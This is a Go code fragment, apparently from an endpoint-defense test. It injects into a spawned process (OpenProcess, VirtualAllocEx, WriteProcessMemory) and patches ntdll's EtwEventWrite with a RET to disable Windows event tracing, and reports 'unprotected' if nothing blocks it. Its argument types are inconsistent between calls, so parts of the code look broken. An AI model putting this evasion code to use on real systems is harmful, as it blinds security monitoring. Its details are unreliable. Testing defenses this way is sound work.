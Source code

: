 ```go
	if err != nil {
		Endpoint.Say(fmt.Sprintf("[-] Failed to start process: %s", err))
		Endpoint.Stop(1) // ERROR
	}
	defer cmd.Process.Kill()

	// get process handle
	procHandle, err = windows.OpenProcess(windows.PROCESS_ALL_ACCESS, false, uint32(cmd.Process.Pid))
	if err != nil {
		Endpoint.Say(fmt.Sprintf("[-] Failed to get process handle: %s", err))
		Endpoint.Stop(1) // ERROR
	}

	// allocate memory in target
	var remoteAddr uintptr
	remoteAddr, err = windows.VirtualAllocEx(procHandle, 0, 4096, windows.MEM_COMMIT, windows.PAGE_EXECUTE_READWRITE)
	if err != nil {
		Endpoint.Say(fmt.Sprintf("[-] Failed to allocate memory: %s", err))
		Endpoint.Stop(1) // ERROR
	}

	// write dummy data to allocate memory [NOP slide to simulate patching]
	dummyData := []byte{0x90, 0x90, 0x90, 0x90}
	var written uint32
	err = windows.WriteProcessMemory(procHandle, remoteAddr, &dummyData[0], uint32(len(dummyData)), &written)
	if err != nil || written != uint32(len(dummyData)) {
		Endpoint.Say(fmt.Sprintf("[-] Failed to write to process memory: %s", err))
		Endpoint.Stop(1) // ERROR
	}
	// Verify the memory was patched
	verifyMemoryPatch(procHandle, remoteAddr, dummyData)

	// Attempt to patch ETW functions
	patchETW()

	Endpoint.Say("[+] ETW patching executed successfully")
	Endpoint.Stop(101) // UNPROTECTED: Malicious behavior not blocked

}

func patchETW() {
	// patching ETW functions in ntdll.dll
	ntdll := windows.NewLazySystemDLL("ntdll.dll")
	etwEventWrite := ntdll.NewProc("EtwEventWrite")

	// allocate memory for patch
	mem, err := windows.VirtualAlloc(0, 4096, windows.MEM_COMMIT|windows.MEM_RESERVE, windows.PAGE_EXECUTE_READWRITE)
	if err != nil {
		Endpoint.Say(fmt.Sprintf("[-] Failed to allocate memory for ETW patch: %s", err))
		Endpoint.Stop(1) // ERROR
	}

	// write patch to memory
	patch := []byte{0xC3} // RET instruction to bypass function
	copy((*(*[1 << 20]byte)(unsafe.Pointer(mem)))[:], patch)

	// patch EtwEventWrite
	err = windows.WriteProcessMemory(windows.CurrentProcess(), etwEventWrite.Addr(), &patch[0], uintptr(len(patch)), nil)
```
